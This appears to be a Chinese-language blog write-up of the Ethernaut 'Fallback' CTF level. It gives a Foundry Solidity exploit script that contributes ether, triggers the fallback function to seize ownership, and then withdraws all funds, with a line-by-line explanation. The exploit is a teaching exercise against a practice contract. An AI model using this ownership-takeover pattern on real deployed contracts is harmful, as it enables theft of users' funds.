 ```yaml
---
layout: post
title: "Ethernaut-Fallback"
date: 2024-08-29 12:00:00 +0800
author: [001]
categories: [Ethernaut]
tags: [CTF]
---
```


## POC

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.21;

import {Script, console2} from "forge-std/Script.sol";
import {EthernautHelper} from "../setup/EthernautHelper.sol";

// NOTE You can import your helper contracts & create interfaces here
import {Fallback} from "../../challenge-contracts/01-Fallback.sol";

contract FallbackSolution is Script, EthernautHelper {
    address constant LEVEL_ADDRESS = 0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB;
    uint256 heroPrivateKey = vm.envUint("PRIVATE_KEY");
    
    function run() public {
        vm.startBroadcast(heroPrivateKey);
        // NOTE this is the address of your challenge contract
        address challengeInstance = createInstance(LEVEL_ADDRESS);

        // YOUR SOLUTION HERE
        Fallback(payable(challengeInstance)).contribute{value:0.0001 ether}();
        (bool success, ) = payable(challengeInstance).call{value:1 wei}("");
        require(success, "Transfer failed.");
        Fallback(payable(challengeInstance)).withdraw();

        // SUBMIT CHALLENGE. (DON'T EDIT)
        bool levelSuccess = submitInstance(challengeInstance);
        require(levelSuccess, "Challenge not passed yet");
        vm.stopBroadcast();

        console2.log(successMessage(1));
    }
}
```
## 程式碼區段說明


### 套件與合約的引入
```
import {Script, console2} from "forge-std/Script.sol";
import {EthernautHelper} from "../setup/EthernautHelper.sol";
import {Fallback} from "../../challenge-contracts/01-Fallback.sol";
```

* Script 和 console2 是 Foundry 提供的標準腳本模組，用來執行與輸出調試訊息。
* EthernautHelper 是一個輔助模組，用來與 Ethernaut 挑戰互動。這通常包含一些方法來創建關卡實例或提交解題結果。
* Fallback 是 Ethernaut 挑戰中的合約，這是一個需要玩家奪取合約控制權並提取資金的挑戰。

### 常量和私鑰

```
address constant LEVEL_ADDRESS = 0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB;
uint256 heroPrivateKey = vm.envUint("PRIVATE_KEY");
```

*  LEVEL_ADDRESS 是 Ethernaut "Fallback" 挑戰合約的地址。
*  heroPrivateKey 是從環境變數中讀取的玩家私鑰，用來廣播交易。



### run 函數

```
function run() public {
    vm.startBroadcast(heroPrivateKey);
    address challengeInstance = createInstance(LEVEL_ADDRESS);
```

* vm.startBroadcast(heroPrivateKey) 會以指定的私鑰開始交易廣播，允許後續執行合約互動。
* createInstance(LEVEL_ADDRESS) 創建一個 Ethernaut 關卡實例，這將返回挑戰合約的地址。


### 解決方案的實施


```
    Fallback(payable(challengeInstance)).contribute{value:0.0001 ether}();
    (bool success, ) = payable(challengeInstance).call{value:1 wei}("");
    require(success, "Transfer failed.");
    Fallback(payable(challengeInstance)).withdraw();
```

* Fallback(payable(challengeInstance)).contribute{value:0.0001 ether}()：向挑戰合約的 contribute() 函數發送 0.0001 Ether 進行貢獻，這一步是取得某些權限的先決條件。
* (bool success, ) = payable(challengeInstance).call{value:1 wei}("");：這行是向合約發送 1 wei 的 Ether，觸發該合約的 fallback 函數。這個操作會讓玩家成為合約的擁有者，因為挑戰合約中的 fallback 函數允許如果有人直接發送資金給合約且貢獻大於 0，則會變更合約所有權。
* Fallback(payable(challengeInstance)).withdraw();：這行呼叫 withdraw() 函數，提取合約中的所有資金。

### 提交

```
    bool levelSuccess = submitInstance(challengeInstance);
    require(levelSuccess, "Challenge not passed yet");
    vm.stopBroadcast();
    console2.log(successMessage(1));
}
```

* submitInstance(challengeInstance) 用來提交挑戰結果，這是 Ethernaut 平台所要求的步驟。
* 成功後，透過 console2.log(successMessage(1)); 顯示成功訊息。



